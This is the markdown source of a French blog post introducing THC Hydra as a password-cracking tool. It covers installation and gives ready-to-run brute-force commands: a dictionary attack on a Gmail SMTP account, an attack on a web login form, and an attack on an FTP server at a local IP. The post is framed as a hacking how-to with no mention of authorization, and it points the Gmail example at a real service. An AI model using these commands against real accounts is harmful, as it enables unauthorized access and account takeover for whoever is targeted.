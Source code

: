 ```yaml
---
title: Hydra, un outil de craquage de mot de passe
author: Davistar
layout: post
permalink: "/hacking/cracking_hydra_linux.html"
read_time: true
category: hacking
image: /techlovers/assets/2018-10-25/image1hydra.jpeg
---
```


&nbsp;

## Qu'est-ce que Hydra ?
THC Hydra est un outil de piratage de mots de passe capable d’exécuter des attaques de dictionnaire très rapides contre plus de cinquante protocoles. 
C'est un outil de piratage de connexion réseau rapide et stable qui utilise des attaques par dictionnaire ou par force brute pour essayer diverses combinaisons de mots de passe et de connexion sur une page de connexion.

## Quelles sont les utilisations typiques de THC Hydra ?
Hydra est utilisé en tant que pirate de connexion parallélisé prenant en charge de nombreux protocoles d’attaque. Les nouveaux modules sont faciles à ajouter. Cet outil montre à quel point il est facile d’obtenir un accès non autorisé à distance.

## Installer Hydra

Hydra est très simple d'installation. Sous Parrot et Kali, Hydra est déjà pré-installé.

### Sur Linux

{% highlight bash %}
$ sudo apt update && apt upgrade -y && apt install hydra -y
# sudo apt install hydra-gtk si vous voulez hydra en GUI
{% endhighlight %}

## Comment Utiliser Hydra : 

Pour afficher l'aide de Hydra 

{% highlight bash %}
$ sudo hydra -h
{% endhighlight %}

### Cracker un compte smtp avec Hydra via un dictionnaire :
Explication en vidéo ici => [https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s](https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s)

Notre serveur smtp : smtp.gmail.com
Notre port smtp : 465 ou 587

{% highlight bash %}
$ sudo hydra -l target@gmail.com -P wordlist.txt -S 465 -v -V -t 1 smtp.gmail.com smtp
{% endhighlight %}

 > -l = précise le login
 > -P = précise la wordlist
 > -S = précise le port
 > -v = pour rendre l'attaque verbeuse
 > -t = le nombre de threads
 > smtp = le protocole de l'attaque

### Cracker un compte via une page login post form :

{% highlight bash %}
$ hydra <IP> https-post-form "/login/login.php:user=admin&password=^PASS^ :F=failed" -l admin -P wordlist.txt -t 1 -V
{% endhighlight %}

### Cracker un compte FTP via Hydra

{% highlight bash %}
$ hydra -l admin -P passlist.txt ftp://192.168.1.70
{% endhighlight %}